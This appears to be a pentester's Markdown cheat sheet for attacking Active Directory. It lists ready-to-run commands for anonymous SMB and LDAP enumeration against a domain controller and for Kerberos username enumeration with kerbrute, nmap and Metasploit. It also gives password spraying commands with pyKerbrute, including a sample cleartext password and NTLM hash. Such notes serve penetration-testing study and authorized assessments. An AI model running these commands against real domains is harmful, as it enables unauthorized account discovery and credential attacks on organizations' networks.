 ### net/service

```bash
# smb
enum4linux -a -u "" -p "" <DC IP> && enum4linux -a -u "guest" -p "" <DC IP>
smbmap -u "" -p "" -P 445 -H <DC IP> && smbmap -u "guest" -p "" -P 445 -H <DC IP>
smbclient -U '%' -L //<DC IP> && smbclient -U 'guest%' -L //

# ldap
nmap -n -sV --script "ldap* and not brute" -p 389 <DC IP>

```

### User enum
+ user name guess/brute
  > invalid/valid username is requested, server respond with different kerberos error code.
  invalid username, _KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN_
  valid usernme, _TGT in a AS-REP_ or error _KRB5KDC_ERR_PREAUTH_REQUIRED_
+ knowing usernames, ASREPRosat/Password Spraying
+ userenum via udp, [pykerbrute](https://github.com/3gstudent/pyKerbrute)
+ user enum list, seclist /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
+ user list generate, [namemash](https://gist.github.com/superkojiman/11076951)

```bash
# username enum, dc port 88
## kerbrute on mac arm64, https://www.reddit.com/r/oscp/comments/wkyrq8/kerbrute_in_arm_based_kali/
./kerbrute_linux_amd64 userenum -d lab.ropnop.com usernames.txt
kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
kerbrute userenum --dc CONTROLLER.local -d 192.168.159.200 User.txt

## user.txt, both work
admin
admin@domain.com

nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN'" <IP>
Nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='<domain>',userdb=/root/Desktop/usernames.txt <IP>

msf> use auxiliary/gather/kerberos_enumusers

# cme cheatsheet
## https://cheatsheet.haax.fr/windows-systems/exploitation/crackmapexec/
crackmapexec smb dominio.es  -u '' -p '' --users | awk '{print $4}' | uniq

# psssword spraying
# https://github.com/S3cur3Th1sSh1t/Creds/blob/master/PowershellScripts/Invoke-SprayEmptyPassword.ps1
Invoke-SprayEmptyPassword.ps1

# pykerbrute, support udp, also able to passwordspray with ntlm hash
## https://xz.aliyun.com/t/8690#toc-11
python2 EnumADUser.py 192.168.60.1 test.com user.txt tcp
python2 EnumADUser.py 192.168.60.1 test.com user.txt udp

python2 ADPwdSpray.py 192.168.60.1 hacke.testlab user.txt clearpassword QWE123!@# tcp
python2 ADPwdSpray.py 192.168.60.1 hacke.testlab user.txt ntlmhash 35c83173a6fb6d142b0359381d5cc84c udp
```
